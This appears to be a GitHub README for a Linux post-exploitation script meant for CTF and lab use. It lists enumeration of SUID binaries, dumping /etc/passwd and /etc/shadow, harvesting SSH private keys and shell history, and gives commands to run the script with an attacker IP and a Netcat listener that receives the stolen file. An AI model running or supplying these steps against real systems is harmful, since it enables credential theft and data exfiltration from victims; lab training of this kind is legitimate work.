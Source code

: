 # Victimfilesdownload_shell
 🔐 Post-Exploitation Enumeration & Exfiltration Script (Linux) This script is designed for CTF and lab environments to automate key post-exploitation tasks after gaining a shell on a Linux target.  🧰 Features:  Enumerates SUID binaries (priv esc vectors)  Finds world-writable files  Dumps /etc/passwd, attempts /etc/shadow  Locates SSH private keys and .bash_history  Supports Netcat-based file exfiltration to attacker machine  ⚠️ Educational Use Only – Do not use on live/production systems without permission.

🛠️ How to Use (in your lab):

🖥️ On the Victim Machine (after gaining shell):

chmod +x post_exploitation_enum_and_exfil.sh
./post_exploitation_enum_and_exfil.sh <your-kali-ip> <port>

This will:

Enumerate SUID files, world-writable files

Dump /etc/passwd, try /etc/shadow

Search for SSH keys and .bash_history

Use Netcat to send /etc/passwd back to your Kali

📡 On Your Kali (Attacker) Machine:
Start listener to receive the file:

nc -lvp <port> > passwd_loot.txt

